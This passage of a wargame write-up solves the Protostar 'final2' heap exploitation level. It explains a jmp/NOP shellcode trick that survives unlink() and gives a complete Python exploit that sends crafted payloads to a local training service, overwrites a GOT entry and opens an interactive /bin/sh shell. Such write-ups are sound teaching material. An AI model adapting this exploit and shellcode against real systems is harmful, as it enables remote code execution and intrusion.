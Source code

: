 
![sigtrap](public/image/protostar-final/sigtrap.png)

Success! Now, let's refine our **actual exploit**.

### Solution

This is the <a href="https://shell-storm.org/shellcode/files/shellcode-575.html" target="_blank">shellcode</a> that I use. 

However, there's a problem, where `unlink()` always overwrites memory at `0x804e018`. This means **we lose four bytes** of our shellcode. 

What we need to overcome this is to make our shellcode **skip past** `0x804e018` and continue execution at `0x804e01C`. Luckily the `jmp` instruction (`\xeb`) does exactly this. Its argument is how many bytes to jump over. So our shellcode can start with `0xeb 0x0a` which moves the instruction pointer 10 bytes forward. We fill in the middle 10 bytes with `NOPs` (`0x90`). 

Our final script will be this.

```python
import socket, struct, telnetlib

HOST = '127.0.0.1'
PORT = 2993
REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

shellcode = "\xeb\x0a" + "\x90" * 10 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload1 = "FSRD" + "AAAA" + shellcode
payload1 += "A" * (REQSZ - len(payload1) - 1 ) + "/"

write_got = struct.pack("I", 0x804d410)
heap_return = struct.pack("I", 0x804e010)

payload2 = "FSRDROOT/" + struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc) + write_got + heap_return
payload2 += "A" * (REQSZ - len(payload2))

s.send(payload1)
s.send(payload2)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

![final2-win](public/image/protostar-final/final2.png)

### Refereces
